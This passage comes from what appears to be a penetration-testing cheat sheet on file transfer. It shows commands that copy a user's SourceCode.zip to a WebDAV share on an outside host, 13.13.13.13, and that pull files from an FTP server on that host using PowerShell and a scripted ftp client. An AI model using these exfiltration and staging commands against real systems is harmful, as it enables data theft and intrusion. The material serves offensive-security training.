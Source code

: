 2. **Connecting to the Webdav Share**. DavWWWRoot isn't a folder, it's a special keyword that tells WebDAV that we are connection to the root of WebDav server. You could use any existing directory when you are connecting, as example `sharefolder`

```powershell
C:\> dir \\13.13.13.13\DavWWWRoot
```

3. **Uploading Files using SMB**

```powershell
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\13.13.13.13\DavWWWRoot\
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\13.13.13.13\sharefolder\
```

## <mark style="color:yellow;">FTP</mark>

### <mark style="color:blue;">Downloads</mark>

* **Installing FTP Server python3 module**

```bash
sudo pip3 install pyftpdlib
```

1. **Setting up a Python3 FTP Server**

```bash
sudo python3 -m pyftpdlib --port 21
```

2. **Transferring Files from an FTP Server Using Powershell**

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('ftp://13.13.13.13/file.txt', 'C:\Users\Public\ftp-file.txt')
```

3. **Create a Command File for the FTP Client and Download the Target File**

```bash
C:\> echo open 13.13.13.13 > ftpcommand.txt
C:\> echo USER anonymous >> ftpcommand.txt
C:\> echo binary >> ftpcommand.txt
C:\> echo GET file.txt >> ftpcommand.txt
C:\> echo bye >> ftpcommand.txt
C:\> ftp -v -n -s:ftpcommand.txt
ftp> open 13.13.13.13
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\> more file.txt
This is a test file
```
